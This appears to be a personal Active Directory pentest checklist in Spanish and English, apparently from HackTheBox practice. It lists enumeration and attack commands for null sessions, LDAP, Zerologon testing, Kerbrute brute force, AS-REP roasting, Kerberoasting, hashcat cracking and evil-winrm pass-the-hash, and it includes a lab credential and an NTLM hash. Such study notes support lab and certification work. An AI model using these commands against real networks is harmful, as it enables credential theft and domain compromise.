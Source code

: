 ## ---- SERVICES ENUMERATION AND EXPLOTATION ----

[[ENUMERATION CHECKLIST]]


Nota muy importante, probar ASREPROAST Y KERBEROASTING con los usuarios que tenemos INSIDE AD

## ---- INSIDE AD ----

## WITHOUT USER

#### 1. Check [[RPC (135)]] null session:

```
    rpcclient <<IP>>
    rpcclient -U "" -N <<IP>>
```

#### 2.Check [[SMB (139, 445)]] null session:

```
   
    crackmapexec smb {IP} --pass-pol -u "guest" -p ""
    
    smbmap -H {IP} -u null -p null
    smbmap -H {IP} -u guest
    
    smbclient -N -L //{IP}
    smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
    
```

**!!NOTA IMPORTANTE!!** 
* Con la opción `--shares` para listar los directorios compartidos.

* Si queremos que continue sin que se pare en el primer éxito: `--continue-on-success`

**!!NOTA IMPORTANTE!!**  Buscar vulnerabilidades asociadas a SMB sobre todo si son equipos antiguos (EternalBlue)

#### 3. Check [[LDAP (389, 636)]] to obtain interesting information (null credential):

```
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# or
./windapsearch.py -U --full --dc-ip <<IP>>

# or
crackmapexec ldap {IP} --pass-pol -u "" -p ""
```

#### 4. Test [[ZEROLOGON]]

```
#En el virtual env que se encuentra en /home/kali/VENV/zerologon
source venv/bin/activate

python3 zerologon_tester.py MULTIMASTER 10.10.10.179 <DC NAME (Netbios)> <IP>
```

#### 5.  [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Diccionario para enumerar usuarios -> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.


#### 7. NTLM RELAY + RESPONDER

## WITH USER

#### 1. [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Si no encuentras nada prueba a aplicar fuerza bruta con el parametro bruteforce (pruebas los usuarios también como contraseñas)
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

#### 2. [[ASREPROAST]] (se le pasan usuarios sin contraseñas)

```
impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass -usersfile usuarios-kerberos.txt blackfield.local/
```

Si tenemos un usuario y una pass tambien podemos usar tambien ASEREPROAST para obener el ticket de otros usuarios (SIGUIENTE APARTADO)

Mejor comando ASREP:

````
impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -format john -outputfile hash
````

IMPORTANTE Para crackear la pass utilizar el siguiente comando:

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --forc
```


## WITH USER AND PASS

#### 1. [[WINRM]]

```
#Con usuario y contraseña:
evil-winrm -i <<IP>> -u <<usuario>> -p <<contraseña>>
#Ejm PTT
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

#### 2.  Check [[SMB (139, 445)]] y comprueba si es vulnerable a PSEXEC

#### 3. Check [[SMB (139, 445)]] y compruebas los recursos compartidos del usuario y si es vulenrable a PSEXEC (crackmapexec).

```
# Puedes checkearlo con crackmapexec y conectarte al recurso susando smb
smbclient -U <<DOMINIO>>/<<USUARIO>> //<<ip>>/<<RECURSO COMPARTIDO>>
# Ejemplo:
smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON
```

#### 4. Comprueba el RDP (3389) y WINRM-> Crackmapexec suele fallar 

Manualmente:

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:stephanie /v:192.168.201.75
```

#### 5. MIMIKATZ Y SECRETDUMPS PARA BUSCAR MÁS CONTRASEÑAS [[DUMP SAM & NTDS (SECRETDUMP)]] [[MIMIKATZ]] 

#### 6. [[PASSWORD SPRAY]]

##### 7. [[KERBEROASTING]]

```
impacket-GetUserSPNs <<domain name>>/<<username>>:<<password>> -outputfile <<krbroast>>
```

**!!NOTA IMPORTANTE!!** SI NOS DA ESTE ERROR --> TENEMOS QUE SINCRONIZARNOS

![[Pasted image 20230525200042.png]]

```
 ntpdate <IP of DC>
```

##### 6. SI TENEMOS ACCESO COMPROBAR HISTORIAL DE USUARIO O MIARLO EN WINPEAS

```
(Get-PSReadlineOption).HistorySavePath
```

![[Pasted image 20230611154748.png]]
#### 5. GOLDEN/SILVER TICKETS

#### 8. Vuelve a comprobar todo lo anterior pero con usuario y contraseña: rpc, smb, etc.

![[Pasted image 20230218131515.png]]
